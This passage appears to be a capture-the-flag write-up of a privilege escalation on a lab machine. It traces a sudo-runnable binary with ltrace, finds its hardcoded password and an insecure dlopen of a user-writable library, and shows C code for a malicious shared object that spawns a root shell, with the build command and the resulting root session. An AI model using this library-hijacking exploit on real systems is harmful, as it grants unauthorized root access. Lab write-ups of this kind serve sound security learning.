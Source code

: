 ```c
      puts("1) See the stock");
      puts("2) Edit the stock");
      puts("3) Exit the program\n");
      printf("Select an option: ");
```

 Analyzing the main function the `dlopen` function could my attention. It can be used to load a library during runtime.
 Using `ltrace` we can observe system and library calls.

```console
ltrace -S ./stock                                                                         
SYS_brk(0)                 = 0x55db8fe95000
SYS_mmap(0, 8192, 3, 34)   = 0x7f95f5596000
SYS_access("/etc/ld.so.preload", 04)      = -2
SYS_openat(0xffffff9c, 0x7f95f55c00b1, 0x80000, 0)                     = 3
SYS_newfstatat(3, 0x7f95f55c0c99, 0x7ffdd0b3dc10, 4096)   = 0
SYS_mmap(0, 0x1a3ae, 1, 2)     = 0x7f95f557b000
SYS_close(3)    = 0
SYS_openat(0xffffff9c, 0x7f95f5596140, 0x80000, 0)              = 3
SYS_read(3, "\177ELF\002\001\001\003", 83
```

We can see the `dlopen` yet cause it gets executed after providing the correct password.

```console
strcmp("St0ckM4nager", "St0ckM4nager")    = 0
dlopen("/home/rektsu/.config/libcounter."..., 1 <unfinished ...>
```

We can see that the binary tries to load an library called `libcounter` in the users home directory where we have write permissions. So we can try to create an malicious library that opens a shell session.

```c
#include <stdlib.h>
#include <unistd.h>

void _init() {
    setuid(0);
    setgid(0);
    system("/bin/bash -i");
}
```

Build an shared object with.

```console
gcc -shared -fPIC -nostartfiles -o /home/rektsu/.config/libcounter.so libcounter.c
```

Now we have to execute the binary with root privileges and provide the password to trigger the dlopen function.

```console
rektsu@zipping:~$ ls -la /home/rektsu/.config/libcounter.c 
-rw-rw-r-- 1 rektsu rektsu 116 Sep  1 22:02 /home/rektsu/.config/libcounter.c
rektsu@zipping:~$ gcc -shared -fPIC -nostartfiles -o /home/rektsu/.config/libcounter.so /home/rektsu/.config/libcounter.c
rektsu@zipping:~$ sudo /usr/bin/stockEnter the password: St0ckM4nager
root@zipping:/home/rektsu# id
uid=0(root) gid=0(root) groups=0(root)
```

Done!
